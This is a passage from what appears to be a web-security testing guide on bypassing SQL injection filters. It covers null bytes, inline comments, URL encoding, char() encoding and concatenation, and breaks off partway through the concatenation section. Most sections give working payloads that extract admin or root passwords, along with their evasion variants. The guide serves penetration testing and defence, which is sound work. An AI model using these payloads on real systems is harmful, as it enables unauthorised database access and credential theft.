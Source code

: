 ```sql
or
'a'=
        'a'
```

#### Null Bytes

Use null byte (%00) prior to any characters that the filter is blocking.

For example, if the attacker may inject the following SQL

`' UNION SELECT password FROM Users WHERE username='admin'--`

to add Null Bytes will be

`%00' UNION SELECT password FROM Users WHERE username='admin'--`

#### SQL Comments

Adding SQL inline comments can also help the SQL statement to be valid and bypass the SQL injection filter. Take this SQL injection as example.

`' UNION SELECT password FROM Users WHERE name='admin'--`

Adding SQL inline comments will be.

`'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### URL Encoding

Use the [online URL encoding](https://meyerweb.com/eric/tools/dencoder/) to encode the SQL statement

`' UNION SELECT password FROM Users WHERE name='admin'--`

The URL encoding of the SQL injection statement will be

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Character Encoding

Char() function can be used to replace English char. For example, char(114,111,111,116) means root

`' UNION SELECT password FROM Users WHERE name='root'--`

To apply the Char(), the SQL injection statement will be

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### String Concatenation

Concatenation breaks up SQL keywords and evades filters. Concatenation syntax varies based on database engine. Take MS SQL engine as an example

`select 1`

The simple SQL statement can be changed as below by using concatenation
